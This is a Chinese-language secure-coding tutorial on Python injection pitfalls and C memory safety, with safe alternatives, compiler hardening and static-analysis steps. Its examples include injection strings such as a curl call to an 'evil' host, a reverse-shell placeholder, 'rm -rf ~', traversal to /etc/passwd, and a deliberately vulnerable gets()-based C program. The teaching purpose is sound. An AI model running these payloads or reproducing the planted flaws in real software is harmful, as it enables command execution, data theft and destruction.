

# Python 与 C 安全编程基础

> 日期：2026-11-04
> 所属大纲阶段：1. 基础
> 参考资料：
> - Python 官方文档 — `subprocess`、`secrets`、`pickle`、`shlex` 各模块页（docs.python.org）
> - OWASP Cheat Sheet Series — Injection Prevention / OS Command Injection
> - SEI CERT C Coding Standard（CERT C）
> - Robert Seacord, Secure Coding in C and C++
> - GCC 手册 — `gcc(1)` 的 Hardening Options 与 `-fanalyzer` 文档

---

## 0. 本篇定位

Python 的典型漏洞是「把不可信输入交给解释器或 shell」（注入类）；C 的典型漏洞是「内存边界失控」（溢出类）。本篇分别建立两套「危险调用—安全写法」清单，并用一段故意脆弱的 C 代码演示缓冲区溢出的全过程（**仅限本地学习编译环境**），最后覆盖编译加固与静态分析。

---

# 第一部分：Python 安全编码

## 1. 常见危险调用与安全写法

Python 层面的注入类漏洞几乎都同构：**不可信数据 + 特权解释上下文 = 注入**。


三板斧：

1. **白名单校验（Validate）**：能枚举就枚举（`if filename not in ALLOWED: raise`），正则只用于格式约束（`^[a-z0-9._-]+$`）。
2. **参数化传递（Parametrize）**：不拼字符串，用 API 的参数化能力（列表传参、参数化 SQL、`shlex.quote`）。
3. **最小上下文（Least Context）**：用不到 shell 就不调 shell，用不到 `eval` 就不用。

### 1.1 subprocess 的 shell=True 危险与安全写法

**命令注入（Command Injection）** 的头号入口：

```python
# 环境: Python 3.10+, macOS / Ubuntu 22.04

# ---- 危险写法 ----
import subprocess
def convert(filename: str) -> None:
    # shell=True + 字符串拼接 = 用户输入直接进 shell 解释
    subprocess.run(f"convert {filename} out.png", shell=True)

# 攻击路径(原理说明, 仅在本地靶场验证):
convert("a.png; touch /tmp/pwned")     # ';' 分隔 → 执行第二条命令
convert("a.png && curl http://evil/$(id)")  # && 与命令替换
convert("$(reverse-shell-payload)")     # 命令替换 $(...)
convert("`id`")                          # 反引号替换

# ---- 安全写法 1: 列表参数 + 不用 shell ----
def convert_safe(filename: str) -> None:
    subprocess.run(["convert", filename, "out.png"], shell=False, check=True)
    # 列表元素被当作纯 argv, "; " 只是文件名字符串, 不再有任何 shell 语义

# ---- 安全写法 2: 确实需要 shell 语法时, 对输入做转义 ----
import shlex
user_filter = "name=*.log"
subprocess.run(f"journalctl {shlex.quote(user_filter)}", shell=True, check=True)
# shlex.quote 给包含元字符的输入加单引号, 使其失去 shell 语法含义
# 注意: quote 是兜底, "能不用 shell 就不用"永远是第一选择
```

`shell=True` 还有性能与可移植性问题，但它出现在安全语境几乎总是错的——除非命令字符串完全由代码常量构成。

### 1.2 os.system 与 os.popen：同类问题

```python
import os
# os.system 永远走 shell, 等价于 shell=True, 无法参数化:
os.system(f"tar czf {name}.tar.gz {name}")    # 注入面同上
# 结论: 一律用 subprocess 替代, os.system 不应出现在新代码里
```

### 1.3 eval / exec：把输入当代码执行

```python
# 危险示例(原理说明):
user_expr = "__import__('os').system('touch /tmp/pwned')"
eval(user_expr)          # RCE: eval 在当前命名空间执行任意 Python

# 常见"看似无害"的误用:
eval(input("输入计算式: "))        # 计算器 → 直接 RCE
eval(json_str)                     # 解析 JSON → 应该用 json.loads
eval(user_input, {"__builtins__": {}}, {})   # "限制版 eval" 仍可被绕过, 不可靠

# 正确替代:
import ast, json
obj = json.loads(json_str)                    # 数据就用数据解析器
tree = ast.literal_eval("'a' + 'b'")          # 只允许字面量(数字/字符串/元组/列表/字典)
# ast.literal_eval 不执行调用/属性访问, 是 eval 的安全替代品
```

`exec` 同理（执行语句），并且两者都会让静态分析失效。**规则：eval/exec 不接收任何来自外部的字符串。**

### 1.4 pickle 反序列化（预告）

**反序列化（Deserialization）** 漏洞的共同形态：反序列化可能触发用户数据中携带的任意逻辑。

```python
import pickle, pickletools

# pickle.loads 一个"看起来是数据"的字节串, 可能执行其中 __reduce__ 携带的调用:
# (原理说明; payload 结构仅在本地实验环境构造与分析)
malicious = b"\x80\x04\x95...\x93."   # 反序列化时等价于执行 os.system(...)

pickle.loads(malicious)      # ← 若来自网络/文件 = 潜在 RCE
pickletools.dis(malicious)   # 安全: 只"反汇编"字节码观察其行为, 不执行

# 规则: pickle 只处理自己程序产生的数据; 跨信任边界的数据用 JSON 等纯数据格式
# 同类危险库: yaml.load(见 §1.8), marshal, shelve; 其他语言: Java 反序列化、PHP unserialize
```

### 1.5 安全随机：secrets vs random

```python
import random, secrets

random.seed(42)
random.random()          # 梅森旋转伪随机, 可预测、可重现(seed 固定 → 序列固定)
random.random()          # 甚至: 观察 624 个输出即可重建内部状态预测后续

# random 的正确用途: 模拟、游戏、采样 —— 不是安全用途
# 生成会话ID/密码重置token/API key/盐:
secrets.token_urlsafe(32)     # 256 bit 熵, 适合 URL 场景的会话令牌
secrets.token_hex(16)         # 32 个十六进制字符
secrets.choice("abcdefgh")    # 安全的选择
# 规则: 凡是"对手不能预测"的值, 一律 secrets(底层是 os.urandom 的 CSPRNG)
```

历史教训：早期框架用 `random` 生成会话密钥被完整重放攻破（PHP 的 libc rand 会话 ID 等）。**脑内检查表：这个值被猜中会怎样？会怎样就换 secrets。**

### 1.6 requests 的 verify=False 问题

```python
import requests, urllib3

# 危险: 关闭证书校验 → 中间人攻击完全透明
requests.get("https://example.com", verify=False)
# urllib3 会告警: InsecureRequestWarning —— 但很多项目直接把告警关了(掩耳盗铃):
urllib3.disable_warnings()          # ← 代码评审一票否决项

# 自签名证书/内网 CA 的正确做法: 指定信任的 CA bundle
requests.get("https://intranet.corp/api", verify="/etc/ssl/corp-ca.pem")

# 相关错误: SSLError 时不去修证书链, 而是"先 verify=False 跑通再说" —— 会上生产。
# 评审时 grep:
#   grep -rn "verify=False\|CERT_NONE\|check_hostname *= *False" .
```

### 1.7 路径拼接安全：目录穿越

**目录穿越（Path Traversal / Directory Traversal）**：

```python
import os
from pathlib import Path

def read_avatar(username: str) -> bytes:
    # 危险: username = "../../etc/passwd" 直接逃出 avatar 目录
    with open(f"/srv/avatars/{username}", "rb") as f:      # 危险
        return f.read()

# 安全写法 1: pathlib 解析后校验仍在基目录内
BASE = Path("/srv/avatars").resolve()
def read_avatar_safe(username: str) -> bytes:
    target = (BASE / username).resolve()          # 规范化 ..、符号链接等
    if not target.is_relative_to(BASE):           # Python 3.9+
        raise ValueError("invalid path")
    return target.read_bytes()

# 安全写法 2: 白名单(最强)
# 校验 username 匹配 ^[a-z0-9_]{3,20}$ 后再拼接

# 附加: os.path.join 的坑 —— 第二个参数若是绝对路径会"顶掉"前缀:
os.path.join("/srv/avatars", "/etc/passwd")   # → '/etc/passwd' !!
```

### 1.8 yaml.load 危险

```python
import yaml

# PyYAML 的 yaml.load 可以构造任意 Python 对象(等价 pickle 的问题):
# 恶意文档: !!python/object/apply:os.system ["touch /tmp/pwned"]
yaml.load(untrusted_text, Loader=yaml.FullLoader)  # FullLoader 也不够安全
yaml.load(untrusted_text, Loader=yaml.Loader)      # Loader=危险

# 安全: 一律 safe_load(只解析基础类型, 禁用任意对象构造)
yaml.safe_load(untrusted_text)     # 配置文件解析的正确姿势
```

### 1.9 Python 小结速查表

| 危险 | 场景 | 安全替代 |
| --- | --- | --- |
| `subprocess.run(cmd, shell=True)` | 拼接用户输入 | 列表参数 + `shell=False`；必须 shell 时 `shlex.quote` |
| `os.system` / `os.popen` | 同上 | `subprocess` 列表形式 |
| `eval` / `exec` | 用户输入当代码 | `ast.literal_eval` / 专用解析器 |
| `pickle.loads` | 不可信序列化数据 | JSON；分析用 `pickletools.dis` |
| `random` | 令牌/密钥生成 | `secrets` |
| `verify=False` | 证书报错偷懒 | 修证书链 / `verify=ca.pem` |
| 字符串拼路径 | 文件名来自用户 | `Path.resolve()` + `is_relative_to` / 白名单 |
| `yaml.load` | 不可信配置 | `yaml.safe_load` |

---

# 第二部分：C 内存管理与危险函数

## 2. 内存边界与危险函数

### 2.1 栈与堆上的变量

```c
#include <stdlib.h>
#include <string.h>

void demo(void) {
    int stack_arr[4];              /* 栈: 函数返回即失效, 自动回收 */
    char *heap_buf = malloc(64);   /* 堆: 手动管理, free 前一直有效 */

    /* 典型错误 1: 返回栈地址(悬垂指针) */
    /* return stack_arr;  ← 编译器警告 -Wreturn-local-addr */

    /* 典型错误 2: 忘 free → 内存泄漏; free 后继续用 → UAF(Use-After-Free) */
    free(heap_buf);
    /* heap_buf[0] = 'x';         ← UAF, 堆腐坏的起点 */
    /* realloc(heap_buf, 128);    ← 同样是 UAF: 对已释放指针 realloc 是未定义行为 */
}

/* 典型错误 3 要在"仍有效"的指针上演示, 单独成段: */
void demo_realloc(void) {
    char *heap_buf = malloc(64);
    char *tmp = realloc(heap_buf, 128);   /* 扩容可能整体搬移, 旧地址可能已失效 */
    if (tmp == NULL) {
        /* 扩容失败: 原内存块仍有效, 自行决定保留还是 free(heap_buf) */
    } else {
        heap_buf = tmp;                   /* 必须接收返回值, 继续用旧 heap_buf 就是 UAF */
    }
}
```

| 维度 | 栈（Stack） | 堆（Heap） |
| --- | --- | --- |
| 分配/释放 | 编译器自动（函数序言/尾声） | `malloc`/`free` 手动 |
| 大小 | 小（默认 1–8MB） | 受物理内存限制 |
| 生命周期 | 词法作用域 | 显式 |
| 典型漏洞 | 栈溢出覆盖返回地址 | 堆溢出、UAF、double free |
| 溢出后果 | 常直接劫持控制流 | 元数据破坏、任意写（`tcache` 投毒等） |

### 2.2 数组、指针与 '\0'

C 字符串是以**空字符（NUL, `'\0'`）**结尾的字符数组。所有安全悲剧都始于「写入超过了边界」或「丢了结尾符」：

```c
char buf[8];
strcpy(buf, "hello");     /* 写入 6 字节: 'h','e','l','l','o','\0' —— 刚好 */
strcpy(buf, "hello wor"); /* 写入 10 字节(9字符+\0), 越界 2 字节 —— 未定义行为, 可能崩溃可能静默腐坏 */
/* 没有 \0 的"字符串"会被 printf/strlen 一直读到内存里碰巧的 0 为止
   → 信息泄露的常见来源 */
```

### 2.3 危险函数清单与替代

| 危险函数 | 问题 | 替代 | 替代的坑 |
| --- | --- | --- | --- |
| `gets(buf)` | 无长度限制，**永远溢出** | `fgets(buf, size, stdin)` | `fgets` 会保留换行符，需手动去除；长输入会被截断（下一次读到残余） |
| `strcpy(dst, src)` | 无边界检查 | `snprintf(dst, size, "%s", src)` / `strlcpy` | **`strncpy` 不是安全 strcpy**：源过长时**不写结尾 `\0`**（读到 `\0` 后还用 `\0` 填充剩余，语义混乱）；`strlcpy`（BSD/glibc 2.38+）始终写 `\0` 但不报截断错误，返回值要检查 |
| `strcat(dst, src)` | 无边界检查 | `strncat`（注意参数语义）/ 首选 `snprintf` | `strncat` 的 n 是「从 src 最多取 n 字符」且总会补写结尾 `\0`，调用者极易把 sizeof(dst) 当 n 传入（正确应按 dst 剩余空间减 1 计算） |
| `sprintf(buf, fmt, ...)` | 输出长度不可控 | `snprintf(buf, sizeof buf, fmt, ...)` | 返回值是「本应写出的长度」，可用于探测截断 |
| `scanf("%s", buf)` | 无宽度限制 | `scanf("%7s", buf)` 或 `fgets` | 格式串忘宽度照样溢出 |

```c
/* 正确姿势示例 */
char buf[16];
snprintf(buf, sizeof buf, "%s", user_input);   /* 截断安全, 恒有 \0 */

char line[64];
if (fgets(line, sizeof line, stdin)) {
    line[strcspn(line, "\n")] = '\0';          /* 去除换行: strcspn 写法 */
}
```

### 2.4 缓冲区溢出最小演示（仅限本地学习编译环境）

**缓冲区溢出（Buffer Overflow）**：向定长缓冲区写入超过其容量的数据，越界部分覆盖相邻内存。以下代码**故意脆弱**，用于在本机观察溢出机制。请只在本地 VM/容器中实验，不要用于任何未授权系统。

```c
/* vuln.c — 教学用故意脆弱代码, 仅限本地编译学习 */
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void check_password(void) {
    char pass[8];                    /* 栈上 8 字节缓冲区 */
    int authed = 0;                  /* 相邻局部变量(实际布局由编译器决定) */
    printf("password: ");
    gets(pass);                      /* 危险函数: 完全不检查长度 */
    if (strcmp(pass, "s3cret") == 0)
        authed = 1;
    if (authed)
        puts("[+] authenticated");
    else
        puts("[-] denied");
}

int main(void) {
    check_password();
    return 0;
}
```

编译与观察（环境：Ubuntu 22.04 + gcc 11，建议在 Docker `ubuntu:22.04` 或 VM 中）：

```bash
# 故意关掉现代保护来观察"裸"行为(仅教学; 默认编译别这么做):
gcc -no-pie -fno-stack-protector -o vuln vuln.c
# gcc 会对 gets 发出警告: 'the gets function is dangerous and should not be used.'

printf 'A%.0s' {1..40} | ./vuln        # 输入40个'A'
# 现象可能包括:
#  [-] denied 之后 Segmentation fault   ← 越界 'A'(0x41) 覆盖了保存的寄存器/返回地址
#  或 [+] authenticated                 ← 越界覆盖恰好改写了 authed 相邻栈内存

# 观察栈布局(配合上篇 OS 笔记):
gcc -no-pie -fno-stack-protector -g -O0 -o vuln vuln.c
# 在 gdb 中: break check_password; run; x/32bx $rsp  观察输入前后栈内存变化
```

溢出过程图解（栈从高地址向低地址增长，`gets` 从 `pass[0]` 向高地址写）：



**防御视角**：这段代码同时示范了为什么 `gets` 已从 C11 标准移除、为什么 Canary 能拦截（覆盖发生时先碰 canary）、为什么 NX 让「直接跳到栈上的注入代码」失效。加固后重编译再试即可看到差异（§3.3）。

### 2.5 其他内存错误家族（速览）

- **Use-After-Free（UAF）**：free 后继续使用；堆利用的核心（浏览器漏洞主力）。
- **Double Free**：同一指针 free 两次 → 分配器元数据破坏。
- **Off-by-One**：`for (i = 0; i <= n; i++)` 写到 `buf[n]`，差一位也是越界。
- **整数溢出导致小分配**：`malloc(len * 4)` 当 `len` 巨大时回绕成小值 → 后续按 `len*4` 写 → 大溢出。防御：用 `<stdint.h>` 定宽类型 + 溢出前检查（`__builtin_mul_overflow`）。
- 工具：AddressSanitizer（`-fsanitize=address`）能在开发期把这类问题变成即时崩溃报告，CI 里应默认开启。

---

## 3. 编译加固与静态分析

### 3.1 编译加固选项详解

| 选项 | 机制 | 防什么 | 说明 |
| --- | --- | --- | --- |
| `-fstack-protector-strong` | 插入 Stack Canary | 栈溢出覆盖返回地址 | `-strong` 覆盖带数组/地址取值的函数；`-all` 全函数（开销大）；Ubuntu 默认 strong |
| `-D_FORTIFY_SOURCE=2`（或 `3`） | 编译期+运行期替换危险调用（`__*_chk`） | `strcpy/sprintf` 等的已知溢出 | 需要 `-O1` 以上优化；级别 3（glibc 2.34+）增加更多运行检查 |
| `-fPIE -pie` | 位置无关可执行 | 固定地址利用（配 ASLR） | 发行版默认；缺 `-pie` 则程序本体地址固定 |
| `-Wl,-z,relro,-z,now` | Full RELRO：GOT 启动即只读 | GOT 覆写劫持 | 仅 `relro` 为 Partial |
| `-fno-delete-null-pointer-checks` | 禁用「空指针检查删除」优化 | 编译器把"解引用后判空"当冗余检查删掉导致的逻辑漏洞 | 编译器默认假定"解引用过的指针非空"会删掉安全检查，加固内核代码要注意（Linux 内核编译必开） |
| CET（`-fcf-protection` / `-mshstk`） | 影子栈+ENDBR（Intel CET） | ROP/JOP | 需 CPU（Tiger Lake+/Alder Lake+）与系统支持；x86-64 默认已带 `-fcf-protection=full` |

### 3.2 gcc 实操编译对比

环境：Ubuntu 22.04，gcc 11+。

```bash
# 裸编译(仅教学对比, 不要用于发布):
gcc -no-pie -fno-stack-protector -D_FORTIFY_SOURCE=0 -o vuln_raw vuln.c

# 常规发行版默认(事实基线):
gcc -O2 -o vuln_default vuln.c

# 全加固(生产推荐, 以包/发行版策略为准):
gcc -O2 -Wall -Wextra \
    -fstack-protector-strong -D_FORTIFY_SOURCE=2 \
    -fPIE -pie \
    -Wl,-z,relro,-z,now -Wl,-z,noexecstack \
    -fcf-protection \
    -o vuln_hardened vuln.c
```

### 3.3 用 checksec 看到差异（衔接上篇）

```bash
# 安装: pip install pwntools
checksec --file=vuln_raw        # RELRO: Partial(Ubuntu gcc 默认带 -z relro 但不带 now) | Canary: No | NX: Yes(链接器默认) | PIE: No
checksec --file=vuln_default    # 发行版默认下通常: Partial/Canary/NX/PIE 全开
checksec --file=vuln_hardened   # Full RELRO / Canary / NX / PIE / FORTIFY

# 加固后再跑溢出输入:
printf 'A%.0s' {1..40} | ./vuln_hardened
# 期望输出: *** stack smashing detected ***: terminated
# ← 这就是 Canary 检测到覆盖后主动终止进程(__stack_chk_fail), 而非跳到 0x41414141
```

加固使「一次溢出=一次崩溃（可检测、可告警）」，而不是「一次溢出=一次沦陷」——崩溃日志是防御方的信号。

### 3.4 静态分析实操

```bash
# 1. gcc 自带分析器(gcc 10+): 过程间数据流, 能抓 malloc/free 错配、空指针解引用等
gcc -fanalyzer -c vuln.c
# 典型输出示例:
# vuln.c: In function 'check_password':
#   warning: possibly overflowing statement ... [CWE-121]
#   warning: leak of 'heap_buf' ... [CWE-401]

# 2. cppcheck: 轻量专用静态分析, 装机即用
cppcheck --enable=warning,style,performance,portability --inline-suppr vuln.c
# 常见发现: "Buffer is accessed out of bounds", "Uninitialized variable"

# 3. clang 静态分析器: 更深路径敏感分析
clang --analyze -Xanalyzer -analyzer-output=text vuln.c
# 典型输出示例:
# vuln.c:12:5: warning: 'gets' should never be used...
#   note: ...does not provide bounds checking

# 4. 警告即错误(养成习惯):
gcc -Wall -Wextra -Werror -Wformat=2 -Wconversion -c vuln.c
# -Wformat=2: 检查 printf 族格式串(防格式化字符串漏洞的编译期手段)
```

CI 建议：`-Wall -Wextra -Werror` + `-fanalyzer` + AddressSanitizer 测试构建 + cppcheck/clang-tidy 各跑一遍；历史代码库可从「新增代码零警告」做起。

### 3.5 格式化字符串速览（预告）

```c
/* printf(user_input);            ← 危险: %n 可写内存, %x 泄露栈 */
printf("%s", user_input);         /* 安全: 输入只是数据, 不是格式 */
/* 与 -Wformat=2 配合, 前者会得到编译警告; 详解留到第4阶段 */
```

---

## 4. 常见误区

1. **「Python 不碰指针，所以内存安全」** —— Python 的注入面在解释器语义（eval/pickle/shell），且解释器本身是 C 写的（历史 CPython 漏洞）；语言安全≠程序安全。
2. **「`strncpy` 就是安全版 `strcpy`」** —— 不写 `\0` 的坑与「截断照样破坏数据」的坑并存；首选 `snprintf`/`strlcpy` 并检查截断。
3. **「验证 TLS 证书报错是环境问题」** —— `verify=False` 是把中间人攻击请进门；正确动作永远是修信任链。
4. **「random 加个 seed 就安全了」** —— seed 恰恰使其可重现；预测性是伪随机数的本性，安全场景只有 `secrets`。
5. **「编译加固了就高枕无忧」** —— 加固提高利用门槛，不修复漏洞；逻辑漏洞（权限检查缺失、注入）与加固无关。加固 + 修 bug + 最小权限三者叠加。
6. **「溢出最多崩溃，崩溃不算漏洞」** —— 对攻击者，崩溃是信息（地址布局、可利用性探测）；DoS 本身也是可用性损失。
7. **「shell=True 但输入校验过了就行」** —— 校验会腐化（下次需求改了白名单就漏）；结构性安全（不进 shell 语境）优先于流程性安全（先检查再拼接）。

---

## 5. 小结与自测

### 小结

- Python 安全编码主线：**不让不可信数据进入任何「解释上下文」**（shell、eval、pickle、yaml、路径、TLS 决策）。
- C 安全编码主线：**一切写操作都有长度上界**，危险的库函数用现代替代；编译加固把「可利用」降级为「崩溃告警」。
- 开发流程三道闸：编译警告全开（`-Wall -Wextra -Werror`）、静态分析（`-fanalyzer`/cppcheck/clang）、动态检测（ASan）；发布全加固（Canary/FORTIFY/PIE/Full RELRO）。

### 自测问题

1. `subprocess.run(["ls", user_path])` 与 `subprocess.run(f"ls {user_path}", shell=True)` 在 `user_path=".; rm -rf ~"` 时行为差异是什么？后者还有哪些等价攻击载荷？
2. 为什么 `ast.literal_eval` 安全而 `eval` 不安全？各自允许的表达式范围？
3. `secrets` 与 `random` 的底层来源分别是什么？给出三个必须用 `secrets` 的场景。
4. `yaml.safe_load` 屏蔽了什么攻击面？与 `pickle.loads` 的共性问题叫什么？
5. 画出 `vuln.c` 中 `check_password` 的栈帧示意，说明 40 个 `A` 依次覆盖了什么；Canary 在哪个位置、如何拦截？
6. `strncpy(dst, src, sizeof dst)` 在 src 长度 ≥ sizeof dst 时的结果字符串有什么问题？写出两处修复。
7. `-D_FORTIFY_SOURCE=2` 需要搭配哪个编译选项才生效？它在什么时机把 `strcpy` 替换成什么？
8. 动手：把 `vuln.c` 分别用裸编译与全加固编译，用 `checksec` 对比，并输入超长字符串解释两者输出差异。

（完）

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 「1. 常见危险调用与安全写法」节 · 不可信输入→拼接/解释→shell/SQL 危险链 | flowchart LR |
| 「2.4 缓冲区溢出最小演示（仅限本地学习编译环境）」节 · check_password 栈帧与 40 个 A 覆盖过程图 | flowchart TD |
